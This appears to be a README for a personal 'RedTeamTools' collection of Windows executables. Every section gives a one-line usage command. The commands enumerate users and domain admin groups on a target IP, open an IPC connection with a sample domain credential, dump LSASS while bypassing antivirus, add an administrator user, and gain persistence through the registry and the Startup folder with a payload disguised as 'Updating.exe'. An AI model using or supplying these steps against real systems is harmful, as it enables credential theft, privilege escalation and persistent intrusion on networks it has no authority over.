 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
new10.exe > 1.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
Easy11.exe #direct to use
```

## 12Write The Registry

```
12.exe
```

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```
